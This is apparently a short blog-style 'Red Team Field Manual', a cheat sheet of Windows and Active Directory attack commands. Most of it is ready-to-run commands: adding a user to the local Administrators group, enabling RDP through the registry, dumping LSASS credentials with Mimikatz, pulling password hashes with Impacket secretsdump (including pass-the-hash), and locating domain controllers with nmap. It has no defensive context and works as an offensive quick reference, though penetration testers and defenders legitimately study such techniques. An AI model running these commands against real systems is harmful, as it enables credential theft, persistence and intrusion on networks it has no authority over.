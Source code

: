 ```yaml
---
layout: blog
title: Red Team Field Manual
tags: 
comments: true
date: 2022-12-10
---
```


# Red Team Field Manual
<br />
### Create Local User And Add To Administrators Group
    net user <Username> <Password> /add>
    
    net localgroup Administrators <Username> /add   
  
### List Users In Active Directory

    net users /domain

### Enable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Disable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
    
### Lsass Dump via Mimikatz

    privilege::debug
    sekurlsa::minidump file.DMP (If there is a DMP file)
    sekurlsa::logonpasswords full
    
### Impacket secretsdump - DUMP Local User Hashes via Domain Creds
 
    python3 secretsdump.py <Domain>/<Domain Username>:<Password>@<IP> (Enter with Domain Creds)
    
### Impacket secretsdump - DUMP Local User Hashes via Domain NTLM Hash

    python3 secretsdump.py <Domain>/<Domain Username>@<IP> -hashes <NTLM Hash> (Enter with NTLM Hash)
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Creds
    
    python3 secretsdump.py <Computer_Hostname>/<Local Username>:<Password>@<IP> (Enter with Local Creds)
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Hash

    python3 secretsdump.py <Computer_Hostname>/<Local Username>@<IP> -hashes <NTLM Hash> (Enter with NTLM Hash)

### Find Domain Controller In BlackBox Testing

    nmap -p389,636 --open -iL <IP_List_File> - 389(LDAP) / 636(LDAP-SSL)
    
    
    
    
